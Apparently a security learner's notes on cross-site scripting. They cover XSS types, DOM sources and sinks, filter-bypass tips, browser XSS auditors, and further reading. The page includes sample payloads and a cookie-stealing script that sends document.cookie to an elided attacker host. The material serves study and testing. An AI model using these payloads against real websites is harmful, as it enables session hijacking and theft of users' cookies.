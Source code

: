 # XSS - Cross-Site Scripting

## Introduction

* An XSS vulnerability lets you inject a malicious script on a website
  * One notable use is to steal cookies
* Where to find XSS :
  * Any input on a website really \(if it's not properly sanitized\)
  * Concatenated http parameter pollution
  * Url of action form : `javascript:alert(1337)`
  * Url :
    *  `data:text/html,<script>alert(0)</script>`
    * URL parameters that renders on the page
* Example of XSS payloads available at [https://github.com/cure53/H5SC](https://github.com/cure53/H5SC)

## Types

* **Reflected** : The input is sent to the server and reflected on the page
* **Stored** : Same but the input is also **persisted** in a db of some sort
* **DOM** : The input is directly inserted into the DOM \(without being sent to the server at all\)
  * **Sources** \(where the input goes\) :
    * `document.url`, `document.referrer`
    * `location`, `location.href`, `location.search`, `location.hash`, `location.pathname`
    * etc
  * **Sinks** \(where the input ends up\) :
    * `element.innerHTML()`, `element.outerHTML()`
    * `eval()`
    * `setTimeout()`, `setInterval()`
    * `document.write()`, `document.writeln()`
    * etc
  * A `<script>alert();</script>` inserted via `inner.html` won't be executed
* **Self** : Impact only the user entering the payload
  * Rarely useful without some sort of social engineering
    * However, they can be. Read this [article](https://whitton.io/articles/uber-turning-self-xss-into-good-xss/)

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

## Tips

* Use lists with _burp intruder_
* If `<script>` aren't accepted, use events like `onfocus`, `onload`, etc
* `google.com/jsapi?callback=alert` can be used to received a function in a callback
* Check : [Bypassing Sanitizers](https://zcugni.gitbook.io/notes/pen-test/vulnerabilities#bypassing-sanitizers) & the [Owasp Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

## XSS Auditor

* Mechanism used by browsers to detect XSS and prevent them
* However, they often introduce other vulnerabilities and gives a false impression of security
  * For this reason, a lot of browsers have stopped using them
  * For example, in Chrome it detected an injection \(in part\) by comparing what was given in the url with the content of the scripts in the page
    * But that could be abused to inject in the url a valid part of the script, so that the auditor would disable it

{% hint style="info" %}
Read this : [https://blog.innerht.ml/the-misunderstood-x-xss-protection/](https://blog.innerht.ml/the-misunderstood-x-xss-protection/)

Check this : [https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)
{% endhint %}

## Get a cookie

By example by injecting this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* _Real-World Bug Hunting: A Field Guide to Web_ Hacking by Peter Yaworski
* Misc research

